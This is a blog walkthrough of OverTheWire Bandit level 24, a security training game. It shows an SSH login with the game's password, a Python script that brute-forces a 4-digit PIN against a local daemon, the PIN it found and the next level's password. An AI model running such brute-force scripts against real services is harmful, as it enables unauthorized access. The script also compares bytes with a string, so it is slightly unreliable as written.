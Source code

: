 ```yaml
---
layout: post
author: mike
series: bandit
categories: bandit 
---
```


### Level 24 -> 25
#### Game Instructions
> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

This one is our first scripting for brute force...
```
ssh -p 2220 bandit24@bandit.labs.overthewire.org
password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
We have a daemon listening on port 30002 for us to send both the previous password + a 4 digit pin. We can do this manually and take a week or so, or we can script it out to try the 10000 combinations. **Our First Brute Attack**

Here's a script:
```py
#!/usr/bin/env python3
# coding: utf-8
import sys
import socket
pincode = 0
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
try:
    # Connect to server
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1", 30002))

    # Print welcome message
    welcome_msg = s.recv(2048)
    print(welcome_msg)
    # Try brute-forcing
    while pincode < 10000:
        pincode_string = str(pincode).zfill(4)
        message=password+" "+pincode_string+"\n"
        # Send message
        s.sendall(message.encode())
        receive_msg = s.recv(1024)
        # Check result
        if "Wrong" in receive_msg:
            print("Wrong PINCODE: %s" % pincode_string)
        else:
            print(receive_msg)
            break
        pincode += 1
finally:
    sys.exit(1)
```
After a while we'll get to the right combination. The pin is **2586** as of my writing.

Next password:
`uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`
